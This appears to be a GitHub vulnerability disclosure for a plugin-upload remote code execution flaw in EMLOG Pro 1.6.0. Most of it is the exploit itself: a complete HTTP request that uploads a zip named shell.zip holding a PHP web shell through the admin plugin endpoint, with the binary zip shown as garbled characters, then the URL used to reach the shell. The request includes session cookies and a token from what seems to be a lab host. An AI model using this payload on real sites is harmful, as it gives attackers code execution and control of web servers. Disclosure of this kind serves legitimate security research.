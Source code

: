 # EMLOG_pro_1.6.0（latest version） plugins upload rce vulnerability
### EMLOG download address：https://github.com/emlog/emlog/releases/tag/pro-1.6.0
## 1. Login as admin and upload a plugin (a zip which include a php file)
### payload 
```
POST /emlog/admin/plugin.php?action=upload_zip HTTP/1.1
Host: 192.168.111.155
Content-Length: 876
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.111.155
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary804UeairFtrET9Lt
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.111.155/emlog/admin/plugin.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=lq0s731hnlqm232itjlgpc27el; EM_AUTHCOOKIE_jT79impSwTWeimzUBIsgAmv1NoQbG2Zs=admin%7C1695536025%7C848fc865191736412177851eb6082b92; em_saveLastTime=1664436503884
Connection: close

------WebKitFormBoundary804UeairFtrET9Lt
Content-Disposition: form-data; name="pluzip"; filename="shell.zip"
Content-Type: application/x-zip-compressed

PK    Mq=Ua郵/?         shell/shell.php=?K聾 嗺凔78h嘍2渹v裫]Dと??$W称"XjQ皛Q礑??轌3?乿}哏}y=觾@/@癴撰杻V+5倯x岹儊竲哷孁佸:蚷?猏Z?,揱戏<氉賬岈ノ湞獈煶埑'R齿獙哮甙!?>靾?綱漜晅U?砭7it愴矐堬%{Lz悏雀╊>栮詔}岒O懘e隿鍶趣?爱嘺ㄥ愭
AA噣霿扉┹Rq絓茇?cgf?PK     Bq=U               shell/PK?     Mq=Ua郵/?       $               shell/shell.php
         F柑)视?F柑)视?[秤?PK?      Bq=U             $          *  shell/
         棦视?8?视?纳爻迂PK      ?   N    
------WebKitFormBoundary804UeairFtrET9Lt
Content-Disposition: form-data; name="token"

4e1bef9d513bae43a46448cbbaee0db7d1d5f7d1
------WebKitFormBoundary804UeairFtrET9Lt--

```
![jpg](https://github.com/wszdhf/cms_vul/blob/main/emlog-01.jpg)
## 2. Active the plugin you uploaded and get a shell!
### payload
```
http://192.168.111.155//emlog/content/plugins/shell/shell.php
```
![jpg](https://github.com/wszdhf/cms_vul/blob/main/emlog-02.jpg)

